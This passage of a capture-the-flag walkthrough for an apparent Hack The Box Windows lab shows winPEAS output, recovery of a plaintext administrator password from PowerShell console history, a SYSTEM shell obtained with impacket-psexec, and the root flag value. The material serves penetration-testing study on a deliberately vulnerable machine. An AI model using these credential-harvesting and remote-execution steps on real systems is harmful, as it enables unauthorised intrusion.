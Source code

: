 ```
����������͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
     File Permissions "C:\Users\sql_svc\Downloads\winPEASx64.exe": sql_svc [AllAccess]
     File Permissions "C:\Users\sql_svc\Downloads\nc64.exe": sql_svc [AllAccess]

����������͹ Looking for Linux shells/distributions - wsl.exe, bash.exe

����������͹ Analyzing Windows Files Files (limit 70)
    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\sql_svc\NTUSER.DAT
```

It seems that we can access the commands history located on `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

```
more ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
We found the administrator credentials so we login as so `impacket-psexec administrator@${TARGET}`
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.52.112.....
[*] Found writable share ADMIN$
[*] Uploading file reUCRdoH.exe
[*] Opening SVCManager on 10.129.52.112.....
[*] Creating service PAWg on 10.129.52.112.....
[*] Starting service PAWg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
```
Once inside we check the account 
```
C:\Windows\system32>whoami
nt authority\system
```

The admin flag is inside the admin desktop

```
C:\Users\Administrator\Desktop>more root.txt
b91ccec3305e98240082d4474b848528
```